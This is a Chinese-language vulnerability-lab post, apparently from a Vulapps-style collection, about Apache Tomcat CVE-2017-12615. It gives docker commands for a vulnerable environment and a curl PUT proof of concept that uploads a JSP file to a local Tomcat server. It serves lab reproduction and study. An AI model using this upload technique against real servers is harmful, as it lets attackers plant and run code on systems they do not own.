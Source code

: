```yaml
---
layout: post
title: "Tomcat 远程代码执行漏洞 (CVE-2017-12615)"
date: 2017-09-21 00:47:08 +0800
image: '/assets/img/'
description: 'Tomcat 远程代码执行漏洞 (CVE-2017-12615)'
main-class: 'hole'
color: '#B31917'
tags:
- Tomcat
- RCE
categories:
- Tomcat
twitter_text: 'Tomcat 远程代码执行漏洞 (CVE-2017-12615)环境'
introduction: 'Tomcat 远程代码执行漏洞 (CVE-2017-12615)环境'
---
```


### 漏洞信息

 * [Fixed in Apache Tomcat 7.0.81](http://tomcat.apache.org/security-7.html#Fixed_in_Apache_Tomcat_7.0.81)
 * [Tomcat代码执行漏洞分析测试(附POC)](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)
 
 > 根据测试发现 7.0.81 并未修复完全，可绕过，具体参考下方paper链接

 * [云鼎实验室：Tomcat 远程代码执行漏洞分析（CVE-2017-12615）及补丁 Bypass](https://paper.seebug.org/398/)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:t_tomcat_1
 ```

2. 启动环境
 ```bash
$ docker run -d -p 8080:8080 medicean/vulapps:t_tomcat_1
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

1. 向目标发起 PUT 请求，注意后缀为 `.jsp/`
    ```bash
$ curl -X PUT "http://127.0.0.1:8080/123.jsp/" -d '<%out.println("test");%>'
    ```

2. 然后访问目标地址 `http://127.0.0.1:8080/123.jsp`,  即可看到输出了 `test`

### 参考链接

* [Tomcat代码执行漏洞分析测试(附POC)](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)
